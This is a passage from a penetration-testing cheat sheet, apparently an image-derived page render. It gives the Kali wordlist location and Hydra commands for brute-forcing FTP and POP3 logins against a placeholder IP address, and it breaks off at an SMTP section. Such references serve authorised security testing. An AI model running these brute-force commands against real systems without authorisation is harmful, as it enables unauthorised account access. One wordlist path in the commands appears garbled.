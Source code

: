 <table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>/usr/share/wordlists</td>
<td>Kali word lists</td>
</tr>
</tbody>
</table>
<p>Massive wordlist here at <a href="https://blog.g0tmi1k.com/2011/06/dictionaries-wordlists/" target="_blank">g0tm1lk’s blog</a></p>
<h2>Brute Forcing Services</h2>
<h3>Hydra FTP Brute Force</h3>
<p>Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely. On Ubuntu it can be installed from the synaptic package manager. On Kali Linux, it is per-installed.</p>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f<br>
192.168.X.XXX ftp -V</td>
<td>Hydra FTP brute force</td>
</tr>
</tbody>
</table>
<h3>Hydra POP3 Brute Force</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f<br>
192.168.X.XXX pop3 -V</td>
<td>Hydra POP3 brute force</td>
</tr>
</tbody>
</table>
<h3>Hydra SMTP Brute Force</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>